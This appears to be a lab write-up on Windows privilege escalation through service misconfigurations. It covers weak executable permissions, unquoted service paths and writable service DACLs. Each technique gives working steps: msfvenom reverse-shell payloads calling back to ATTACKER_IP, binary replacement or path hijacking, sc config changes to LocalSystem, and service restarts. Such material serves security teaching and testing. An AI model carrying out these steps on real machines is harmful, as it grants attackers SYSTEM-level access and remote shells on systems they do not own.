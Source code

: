 # Windows Privilege Escalation: Abusing Service Misconfigurations

## Windows Services

Windows services are managed by the **Service Control Manager (SCM)**, which handles the state of services, checks their status, and provides configuration options. Each service has an associated executable and specifies the user account under which it runs.

### Service Configuration Example

Using the `sc qc` command, we can inspect a service's configuration:

```cmd
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
    TYPE               : 20  WIN32_SHARE_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 1   NORMAL
    BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : Application Host Helper Service
    DEPENDENCIES       :
    SERVICE_START_NAME : localSystem
```

Key parameters:
- **BINARY_PATH_NAME**: Path to the service executable.
- **SERVICE_START_NAME**: Account used to run the service.

Services have a **Discretionary Access Control List (DACL)** that defines permissions for starting, stopping, querying, or reconfiguring the service. Service configurations are stored in the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

---

## Exploitation Techniques

### 1. Insecure Permissions on Service Executable

If the service executable has weak permissions, attackers can replace it with a malicious payload.

#### Example: Splinterware System Scheduler

```cmd
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 0   IGNORE
    BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
    SERVICE_START_NAME : .\svcuser1
```

The executable has **modify permissions** for the `Everyone` group:

```cmd
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
```

Steps to exploit:
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
   ```
2. Replace the service executable:
   ```cmd
   C:\> move WService.exe WService.exe.bkp
   C:\> move rev-svc.exe WService.exe
   C:\> icacls WService.exe /grant Everyone:F
   ```
3. Restart the service:
   ```cmd
   C:\> sc stop windowsscheduler
   C:\> sc start windowsscheduler
   ```

---

### 2. Unquoted Service Paths

Unquoted paths with spaces can allow attackers to hijack the service by placing malicious executables in priority locations.

#### Example: Disk Sorter Enterprise

```cmd
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
    BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```

If `C:\MyPrograms` is writable, attackers can create `C:\MyPrograms\Disk.exe` to hijack the service.

Steps to exploit:
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
   ```
2. Place the payload:
   ```cmd
   C:\> move rev-svc2.exe C:\MyPrograms\Disk.exe
   C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
   ```
3. Restart the service:
   ```cmd
   C:\> sc stop "disk sorter enterprise"
   C:\> sc start "disk sorter enterprise"
   ```

---

### 3. Insecure Service Permissions

If the service DACL allows modification, attackers can reconfigure the service to execute a malicious payload.

#### Example: THMService

Check the service DACL using `AccessChk`:

```cmd
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
    SERVICE_ALL_ACCESS
```

Steps to exploit:
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
   ```
2. Transfer the payload and grant permissions:
   ```cmd
   C:\> icacls rev-svc3.exe /grant Everyone:F
   ```
3. Reconfigure the service:
   ```cmd
   C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
   ```
4. Restart the service:
   ```cmd
   C:\> sc stop THMService
   C:\> sc start THMService
   ```